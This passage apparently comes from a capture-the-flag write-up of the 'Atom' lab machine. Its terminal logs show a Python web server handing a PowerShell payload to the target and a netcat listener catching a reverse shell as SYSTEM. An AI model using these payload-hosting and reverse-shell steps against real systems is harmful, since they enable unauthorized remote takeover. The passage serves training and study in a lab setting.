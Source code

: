 [![webshell_burp.png](/img/atom/webshell_burp.png)](/img/atom/webshell_burp.png)

```php
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.132.110 - - [18/Apr/2021 17:35:30] "GET /grem.ps1 HTTP/1.1" 200 -
```

Shortly after a hit on the webserver we get the shell as `nt authority\system`.

```php
$ sudo rlwrap  nc -lnvp 443
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.129.132.110.
Ncat: Connection from 10.129.132.110:57270.
Windows PowerShell running as user ATOM$ on ATOM
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

whoami
nt authority\system
dir \users\administrator\desktop


    Directory: C:\users\administrator\desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-ar---         4/18/2021   2:28 AM             34 root.txt


PS C:\xampp\htdocs> 
```
